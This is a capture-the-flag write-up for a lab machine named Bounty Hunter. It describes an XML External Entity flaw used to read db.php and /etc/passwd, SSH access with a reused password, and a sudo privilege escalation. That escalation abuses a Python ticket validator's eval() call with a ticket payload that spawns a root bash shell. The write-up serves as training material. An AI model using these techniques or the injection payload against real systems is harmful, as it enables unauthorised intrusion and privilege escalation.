 # Bounty Hunter Writeup

### objetives
* user flag
* root flag

---

## Basic Enumeration

### network

the ICMP TTL indicates that it's a Linux Machine  

![](./contents/screenshots/screenshot1.png)


the machines has just two open ports  

![](./contents/screenshots/screenshot2.png)


### web

there is a pretty interesting file at */resources/README.txt* that we download  
![](./contents/screenshots/screenshot3.png)

we find */portal.php* that leads us to */log_submit.php*  
![](./contents/screenshots/screenshot4.png)  

here we can see that the input we type in the checkboxes is being displayed on the page  
after some investigation, we confirm that our input is being sent in a **POST** request to */tracker_diRbPr00f314.php*  
but the data is not in plain text, but is base64+URLEncode  
when you uncode the text, you see that the data is our input in XML format  
is this vulnerable to **XML External Entity ??** lets try it !!  
![](./contents/screenshots/screenshot5.png)  
![](./contents/screenshots/screenshot6.png)  
ok, it works, we got an **XML External Entity** vulnerability !!

---

## User flag 

### exploiting XML External Entity

lets see if theres something interesting at *portal.php*  
![](./contents/screenshots/screenshot7.png)  
nothing !

now i remember...when we first did directory enumeration with **gobuster dir** there was a file called *db.php*  
lets try to read it  
![](./contents/screenshots/screenshot8.png) 
we got a password !!!  

we saw in */etc/passwd* that there was an user called "development"  
we try to login by ssh with the password from *db.php* and... it works !!  
we get our **user flag**

---

## Root Flag

as soon as we get in, we see a file called *contract.txt* in our home directory with the following content
![](./contents/screenshots/screenshot9.png)  
what tool is he talking about ?  
with `sudo -l` we find this :  
```bash
User development may run the following commands on bountyhunter:
    (root) NOPASSWD: /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
```

we check the python script  
this script takes an *.md* file and checks if the syntax follows the guidelines of a "Valid Ticket"  
this is the most important part :
```python
def evaluate(ticketFile):
    #Evaluates a ticket to check for ireggularities.
    code_line = None
    for i,x in enumerate(ticketFile.readlines()):
        if i == 0:
            if not x.startswith("# Skytrain Inc"):
                return False
            continue
        if i == 1:
            if not x.startswith("## Ticket to "):
                return False
            print(f"Destination: {' '.join(x.strip().split(' ')[3:])}")
            continue

        if x.startswith("__Ticket Code:__"):
            code_line = i+1
            continue

        if code_line and i == code_line:
            if not x.startswith("**"):
                return False
            ticketCode = x.replace("**", "").split("+")[0]
            if int(ticketCode) % 7 == 4:
                validationNumber = eval(x.replace("**", ""))
                if validationNumber > 100:
                    return True
                else:
                    return False
    return False
```

as we can see, it is using the `eval()` function  
we find a ticket on the system that is "invalid"
```bash
# Skytrain Inc
## Ticket to Essex
__ticket code:__
**11+321+1**
##Issued: 2021/05/12
#End Ticket
```

if we change it this way the ticket is valid
```bash
# Skytrain Inc
## Ticket to Essex
__Ticket Code:__
**11+321+1**
##Issued: 2021/05/12
#End Ticket
```

the thing about this script is that it uses **eval()** on the 4th line(after removing the ** symbols)  
but to be able to get to the point where it uses the **eval()** function, the line has to start with `**11+`  
how do we acomplish this ?  

well, after trying a couple different payloads, i was able to make it work with this :
```bash
# Skytrain Inc
## Ticket to Essex
__Ticket Code:__
**11+321==__import__('os').system('/bin/bash')**
##Issued: 2021/05/12
#End Ticket
```

now we have a shell as Root and we can retrieve the last flag of the machine !!!

---

## Conclusions

i definitely had a lot of fun with this machine  
the first flag was fairly easy for me because the XML External Entity vulnerability was one of the first ideas i had when i saw the input being transformed into XML and was more about finding the right payload, even though i can understand that some people could fall into a rabbit hole trying to find some attack vector on the *portal.php* page  
the privilege scalation is totally obvious that the vulnerability is on the python script and that can take away some headaches while trying to investigate what's going on, but it can take you a while understanding how to crack it  



